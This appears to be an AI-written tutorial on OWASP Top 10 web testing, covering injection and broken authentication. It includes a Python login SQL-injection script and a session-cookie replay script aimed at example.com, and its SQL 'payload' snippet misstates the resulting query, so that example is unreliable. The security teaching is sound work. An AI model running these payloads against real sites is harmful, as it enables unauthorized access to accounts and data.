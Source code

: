 Certainly! Including code snippets and examples can help illustrate how these attacks are executed and how they manifest in a web application. Here are detailed descriptions, examples, and code snippets for each of the OWASP Top 10 vulnerabilities.

### OWASP Top 10 Security Testing for Web Applications

#### 1. Injection

**Description**: Injection flaws, such as SQL, NoSQL, OS, and LDAP injection, occur when untrusted data is sent to an interpreter as part of a command or query. The attacker's hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorization.

**Example**: SQL Injection

**Code Snippet**:
```sql
-- Vulnerable SQL query
SELECT * FROM users WHERE username = 'admin' AND password = 'password';

-- SQL Injection payload
SELECT * FROM users WHERE username = 'admin' OR '1'='1' AND password = 'password';
```

**Attack Simulation**:
In a web application, an attacker could exploit this vulnerability as follows:
```python
import requests

url = 'http://example.com/login'
data = {
    'username': 'admin',
    'password': "' OR '1'='1"
}
response = requests.post(url, data=data)
print(response.text)
```

**Tools Required**:
- SQLMap
- Burp Suite
- OWASP ZAP

#### 2. Broken Authentication

**Description**: Broken authentication vulnerabilities occur when application functions related to authentication and session management are implemented incorrectly, allowing attackers to compromise passwords, keys, or session tokens, or exploit other flaws to assume other users' identities.

**Example**: Session Hijacking

**Code Snippet**:
```python
import requests

# Attacker captures a session token
session_token = 'captured-session-token'
cookies = {'session': session_token}

# Attacker uses the session token to impersonate the user
response = requests.get('http://example.com/dashboard', cookies=cookies)
print(response.text)
```
